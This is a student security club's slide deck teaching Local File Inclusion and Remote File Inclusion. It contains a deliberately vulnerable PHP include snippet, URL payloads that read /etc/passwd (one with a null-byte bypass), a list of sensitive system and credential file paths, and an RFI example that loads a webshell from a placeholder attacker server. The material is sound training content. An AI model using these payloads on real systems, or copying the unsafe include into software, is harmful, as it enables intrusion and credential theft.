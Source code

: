 # Local File Inclusion

By: Nick Bulischeck

CU Cyber


## You Can Find These Presentations Online

Visit [cucyber.net](https://cucyber.net/) to find these presentations and more online!

<span style="padding-top: 6em; font-size: 0.4em; float: left;">Material: <a href="https://tldrlegal.com/license/creative-commons-attribution-sharealike-4.0-international-(cc-by-sa-4.0)">Creative Commons Attribution-ShareAlike 4.0</a></span><span style="padding-top: 6em; font-size: 0.4em; float: right;">Code: <a href="https://tldrlegal.com/license/bsd-2-clause-license-(freebsd)">BSD 2-Clause</a></span>



## What is Local File Inclusion?

* LFI is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application

Note:
Watch Ippsec do LFI using burp: https://youtu.be/rs4zEwONzzk?t=385


## How Does LFI Get Into Code?

* The vulnerability occurs due to the use of user-supplied input without proper validation
* More specifically, `include` statements are not properly sanitized



## Testing for LFI

* In a blackbox testing approach, we should look for scripts which take filenames as parameters


### Testing for LFI

* `http://127.0.0.1/view.php?file=index.html`

```
<?php
  include($_GET['file']);
?>
```



## Exploiting LFI

Note:
Now that you know how LFI works, how would you use it to exploit the server?


### Exploiting LFI

* `http://127.0.0.1/view.php?file=/etc/passwd`


### Interesting Linux File Paths

* /etc/issue
* /proc/version
* /etc/profile
* /etc/passwd
* /etc/shadow
* /root/.bash_history
* /var/mail/root
* /var/spool/cron/crontabs/root


### Bypassing LFI File Restrictions

```
<?php
  include($_GET['file'] . ".php");
?>
```

Note:
* How are C strings represented in memory?
* What happens when strlen finds a null character?


### Bypassing LFI File Restrictions

* `http://127.0.0.1/view.php?file=/etc/passwd%00`



## Remote File Inclusion

* In RFI, the attacker is able to execute code hosted on their own machine.

Note: 
Watch Ippsec attempt RFI: https://youtu.be/rs4zEwONzzk?t=520


### RFI Example

`http://vulnerable/index.php?page=http://yourserver/webshell.txt&cmd=ifconfig`



## Lab Demo



# Questions?

